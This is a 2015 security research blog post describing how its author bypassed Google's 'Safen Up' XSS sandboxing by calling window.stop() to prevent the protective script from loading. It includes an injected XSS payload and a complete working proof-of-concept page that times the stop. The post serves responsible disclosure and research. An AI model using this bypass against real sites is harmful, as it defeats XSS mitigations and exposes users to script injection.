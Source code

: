 ```yaml
---
title: "XSS via window.stop() - Google Safen Up"
date: "2015-05-01"
---
```


In the beginning of 2015, Google launched a new program called [Vulnerability Research Grants](https://www.google.com/about/appsecurity/research-grants/), "_with the goal of rewarding security researchers that look into the security of Google products and services even in the case when no vulnerabilities are found_". I have submitted quite a few bugs to them and decided to give it a try. The grant was given to me after a few days of waiting and my task was to check [Google Safen Up](https://safendup-xss-game.appspot.com/) application which presents an interesting approach to minimize effects of XSS-es.

The page is quite simple and seems to be very easily exploitable, just have a look...

[![](http://2.bp.blogspot.com/-E4Y6h-CxevI/VUPmRxozuTI/AAAAAAAAAGA/5PG4HKeafOo/s1600/safen1.png)](http://2.bp.blogspot.com/-E4Y6h-CxevI/VUPmRxozuTI/AAAAAAAAAGA/5PG4HKeafOo/s1600/safen1.png)

Sending simple XSS payload...

[![](http://2.bp.blogspot.com/-vJzjIstFtI8/VUPmR-4eV7I/AAAAAAAAAGE/OVCm3TdHWXk/s1600/safen2.png)](http://2.bp.blogspot.com/-vJzjIstFtI8/VUPmR-4eV7I/AAAAAAAAAGE/OVCm3TdHWXk/s1600/safen2.png)

... and it works!

So what's the deal? The deal is when you try to `alert(document.domain)`:

[![](http://4.bp.blogspot.com/-g13VwKkyiEc/VUPmRwoeCpI/AAAAAAAAAF8/knKfUzlDU0c/s1600/safen3.png)](http://4.bp.blogspot.com/-g13VwKkyiEc/VUPmRwoeCpI/AAAAAAAAAF8/knKfUzlDU0c/s1600/safen3.png)

The XSS executes but in a completely different, sandbox domain. Thanks to that, most malicious effects of XSS are mitigated as the other domain has no access to any sensitive data.

The HTML source of the XSS-ed page was:

```html
<!DOCTYPE html>
<html>
  <head>
    <script src="//safenup.googleusercontent.com/safen-me-up.js"></script>
    <title>Hello, world of XSS</title>
    <link rel="stylesheet" href="/static/game-frame-styles.css" />
  </head>
  <body id="level1">
        <img src="/static/logos/level1.png" />      
    <div>
      Sorry, no results were found for
      <b
        ><script>
          alert(document.domain);
        </script></b
      >. <a href=".">Try again</a>.    
    </div>
  </body>
</html>
```

Looking just at the source, it may seem as if the XSS should fire in the original domain but the whole magic actually happens in the `safen-me-up.js` file. It creates a new iframe, put everything that is after the script tag in it and then remove all the elements (besides the iframe of course) from the original site.

So is it possible to bypass the protection? Actually I found a way. The whole security of the solution is based on including a single JS file. What if that would be possible to make it not being included at all? I stepped on an interesting behavior of Chrome which seemingly was also a novel attack type for members of Google Security Team.

It is very simple: when you hit the Stop button in Chrome, it immediately stops fetching any external resources (including scripts) but **will still happily execute inline scripts**. Hence, if you happen to press stop at the right time, you’ll prevent the browser from loading `safen-me-up.js`, making the XSS execute on the right domain. To do that programmatically you need to use `window.stop()` method.

The right moment to stop is difficult to predict as it depends on a lot of factors, especially on network bandwidth. Hence I have prepared a script which tries to load the page in iframe and stop it after an increasing intervals of time, starting with 100ms. It did a pretty good job on several machines I tested ergo I think we can say it's somewhat reliable.

Here's the script:

```html
<!DOCTYPE html>
<html>
  <head>
    <title>XSS@Safen Up</title>
  </head>
  <body>
    <script>
      var url =
        'https://safendup-xss-game.appspot.com/?query=<u>xsstest\\u003cscript>alert(document.domain),top.postMessage(31337,"\*")\\u003c/script>';
      var run = true;
      var time = 100;
      var timeDelta = 25;
      window.addEventListener("message", onmessage, false);
      function onmessage(ev) {
        if (ev.data !== 31337) return;
        var out =
          ev.origin === "https://safendup-xss-game.appspot.com"
            ? "Time <b>" + time + "</b> ms does the trick for you."
            : "Oops! Wrong origin, the time is probably too big.";
        document.getElementById("outputText").innerHTML = out;
        run = false;
      }
      function testXSS() {
        if (!run) return;
        window[0].location = url + "&" + Math.random();
        setTimeout(function () {
          window.stop();
          time += timeDelta;
          setTimeout(testXSS, 10);
        }, time);
      }
      setTimeout(testXSS, 1000);
    </script>
    <iframe src="about:blank"></iframe>
    <span id="outputText"></span>
  </body>
</html>
```

And here's a proof that it worked:

<iframe src="https://www.youtube.com/embed/jsLYPwQoLAQ" title="" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>

XSS executed on safendup-xss-game.appspot.com so everything's just fine :)

I'd like to thank Google Security Team for the research grant and hope the next ones will also result in finding interesting bugs :)

